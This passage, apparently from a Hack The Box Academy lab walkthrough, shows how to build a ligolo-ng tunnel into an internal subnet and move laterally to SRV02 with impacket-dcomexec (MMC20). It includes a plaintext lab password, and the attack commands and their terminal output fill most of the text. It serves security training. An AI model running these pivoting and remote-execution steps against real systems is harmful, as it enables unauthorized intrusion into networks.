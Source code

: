 Subsequently, students need to return to their workstations, open a new tab, and proceed to add a new network interface based on their usernames in the workstation (e.g. `htb-ac-XXXX`) and the subnet of the internal network. Additionally, students will query the `my_credentials.txt` file located on the Desktop to get t

Code: shell

```shell
cat Desktop/my_credentials.txt | grep Username
sudo ip tuntap add user <htb-ac-XXXX> mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.20.0.0/24 dev ligolo
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ cat Desktop/my_credentials.txt | grep Username
Username: htb-ac-8414

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip tuntap add user htb-ac-8414 mode tun ligolo

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip link set ligolo up

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip route add 172.20.0.0/24 dev ligolo
```

Students will return to `ligolo`'s proxy console, use the `session` command, select the agent, and initiate the tunnel (they need to press `Enter` after session):

Code: shell

```shell
session
start
```

```shell-session
INFO[6389] Agent joined.                                 name="INLANEFREIGHT\\helen@SRV01" remote="10.129.229.244:49730"
ligolo-ng » session 
? Specify a session : 2 - #2 - INLANEFREIGHT\helen@SRV01 - 10.129.229.244:49730

[Agent : INLANEFREIGHT\helen@SRV01] » start
INFO[6744] Starting tunnel to INLANEFREIGHT\helen@SRV0
```

After establishing the tunnel to the internal network, students will use `impacket-dcomexec` from Impacket to connect to `SRV02` (`172.20.0.52`) using Helen's credentials:

Code: shell

```shell
impacket-dcomexec -object MMC20 INLANEFREIGHT/Helen:'RedRiot88'@172.20.0.52
```
